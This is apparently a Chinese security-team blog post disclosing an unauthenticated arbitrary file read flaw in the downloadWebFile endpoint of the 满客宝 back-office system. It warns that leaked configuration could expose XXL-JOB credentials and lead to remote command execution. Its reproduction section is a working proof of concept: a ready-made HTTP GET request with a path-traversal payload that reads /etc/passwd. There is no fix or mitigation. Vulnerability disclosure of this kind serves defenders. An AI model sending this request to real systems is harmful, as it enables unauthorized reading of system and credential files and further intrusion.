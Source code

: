 #  满客宝后台管理系统 downloadWebFile 任意文件读取漏洞   
原创 R0seK1ller  蟹堡安全团队   2024-08-06 23:59  
  
# 1. 漏洞描述  
  
    满客宝后台管理系统 downloadWebFile 接口存在存在任意文件读取漏洞，未经身份验证的远程攻击者可通过该漏洞读取系统配置文件，获取XXL-JOB账户密码，若XXL-JOB部署在公网，可能会进一步导致后台远程命令执行。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWkicQxOPON5a5MyqeLDa2OKDMdESx1RnpibiaOgWwvy5makFCJibjg8bONgVNqYMxdRItLKB1vEcyEfw/640?wx_fmt=png&from=appmsg "")  
## 2. 漏洞复现  
```
GET /base/api/v1/kitchenVideo/downloadWebFile.swagger?fileName=&ossKey=/../../../../../../../../../../../etc/passwd HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Connection: close


```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWkicQxOPON5a5MyqeLDa2OKqVdHZL0iaoDgLPndNKyLXATmrsPVrhibsibjhv5UGCTDcsibtyN8npyDNg/640?wx_fmt=png&from=appmsg "")  
  
  
  
